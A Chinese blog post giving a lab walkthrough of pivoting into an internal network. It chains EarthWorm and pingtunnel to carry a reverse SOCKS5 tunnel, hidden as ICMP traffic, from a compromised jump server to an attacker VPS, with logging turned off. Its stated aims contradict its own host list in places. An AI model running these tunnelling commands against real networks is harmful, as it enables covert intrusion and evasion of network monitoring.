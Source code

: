 ```yaml
---
title: 【ICMP协议隧道代理】ew+pingtunnel组合建立scoks5隧道
categories:
  - 内网攻防
date: 2025-09-12
image: images/62.webp
---
```

# ew+pingtunnel组合建立scoks5隧道
## 介绍
```
EarthWorm是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。
Pingtunnel 是一种通过 ICMP 发送 TCP/UDP 流量的工具。其是最流行的一款ICMP代理工具，提供对tcp/udp/sock5流量伪装成icmp流量进行转发的功能。
需要root或者administrator/system权限。
```
## 环境
A攻击机器：windows11（自己的电脑）（**10.10.10.131**）
B代理机器（VPS，服务端）：kali（**10.10.10.133**）
C跳板机器：windwos Server 2012（已攻入的服务器）（**20.20.20.134，10.10.10.135**）
D目标机器：centos 7（**20.20.20.130**）（搭建了一个小皮靶场）
## 实验效果
在已经拿到公网win7服务器的前提下，通过ew与pingtunnel搭建能通往winserver2008的隧道，获取winserver2008的服务器权限。
## 实验准备
工具：ew、pingtunnel、proxifer（代理工具）
```
https://github.com/idlefire/ew
https://github.com/esrrhs/pingtunnel
proxifer官网自行下载
```
## 实验步骤
### B代理机器执行
```
./ew_for_linux64 -s rcsocks -l 10080 -e 8898
```
**10080作为连接隧道的端口，8898作为隧道的通道，可以想象为，通向内网主机的路口为10080，走的这条路为8898。8898上所有的人（流量）都会通往10080这个路口。**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912132739.png)
### B代理机器执行
```
./pingtunnel -type server -noprint 1 -nolog 1
```
**意思是将ew启动的sock5协议转换为icmp协议来隐藏传输**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912132900.png)
### C跳板机器执行
```
pingtunnel.exe -type client -l 127.0.0.1:9999 -s 10.10.10.133 -t 10.10.10.133:8898 -sock5 -1 -noprint 1 -nolog 1

10.10.10.133：为VPS地址。
```
**意思是8898这条路上的sock5流量信息隐藏为icmp类型的数据在本C跳板机的9999端口进行转发。**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912133238.png)
### C跳板机器执行
```
ew.exe -s rssocks -d 127.0.0.1 -e 9999
```
**在本C跳板机9999端口开启转发流量**
如果出现错误，请以**管理员身份**运行即可。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912133258.png)
### kali上出现OK字样时表示代理搭建完成
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912133354.png)
使用A机器（自己的机器）win11，进行代理端口：
```
10.10.10.133 10080 
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912133335.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912133858.png)
成功访问到D目标机器小皮面板。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912134124.png)
